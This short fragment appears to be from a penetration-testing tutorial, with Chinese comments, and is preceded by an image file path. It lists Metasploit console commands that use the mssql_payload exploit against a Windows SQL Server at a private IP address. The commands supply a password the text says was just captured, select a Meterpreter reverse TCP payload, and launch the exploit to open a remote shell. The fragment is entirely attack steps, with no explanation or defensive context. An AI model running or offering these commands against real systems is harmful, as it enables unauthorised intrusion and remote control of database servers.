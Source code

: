 

use exploit/windows/mssql/mssql_payload
set RHOST 192.168.23.100 (我们的目标)
set password Password01 (我们刚刚获取的密码)
set payload/windows/meterpreter/reverse_tcp(our selected payload)
exploit





